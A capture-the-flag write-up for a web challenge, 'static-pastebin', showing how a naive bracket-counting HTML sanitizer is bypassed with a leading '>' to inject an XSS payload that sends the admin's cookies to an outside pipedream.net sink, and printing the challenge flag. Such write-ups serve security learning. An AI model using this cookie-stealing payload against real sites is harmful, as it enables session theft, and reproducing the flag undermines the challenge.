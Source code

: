 # web/static-pastebin

## Flag
```
flag{54n1t1z4t10n_k1nd4_h4rd}
```

## Introduction
We are given a web page that accepts any kind of input, with a button that will "store" the text. And a different website (an admin site) where the challenge recommends you place your link if you face any "issue"

## Solution
By looking at the source code of the page that stores text, we see two things:
1. It performs a sanitization over the text
2. The link is then conformed by doing an `atob(text)`

Considering there is another admin page which needs the link to check for issues, we can try doing some kind of XSS. And most probably, the flag could be contained within the cookies

Looking with some more detail at the sanitization method, we can see that it looks for `< >` and only adds content if the brackets are balanced at that moment:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

So that one "couldn't" add something like:
```
<img src=x onerror="javascript:alert('XSS')"></img>
```

However, if we start the text with a closing bracket, then when it gets to the opening bracket everything will be "balanced". For example:
```
><img src=x onerror="javascript:alert('XSS')"></img>
```

We see that in fact we are able to sort out the sanitization. So we can build a more appropriate onerror callback so that it can send the cookies to a sink managed by us. For example:

```
><img src=x onerror="javascript:document.location='https://enoghoklyh418.x.pipedream.net/?c='+document.cookie"></img>
```

We can then generate the page, obtain the link that will look something like:
```
https://static-pastebin.2020.redpwnc.tf/paste/#Ij48aW1nIHNyYz14IG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5vZ2hva2x5aDQxOC54LnBpcGVkcmVhbS5uZXQvP2M9Jytkb2N1bWVudC5jb29raWUiPjwvaW1nPg==
```

And place it in the admin page.

After a while, we'll see the incoming request to our controlled sink, with the cookies of the site containing the flag!

```
/?c=flag=flag{54n1t1z4t10n_k1nd4_h4rd}
```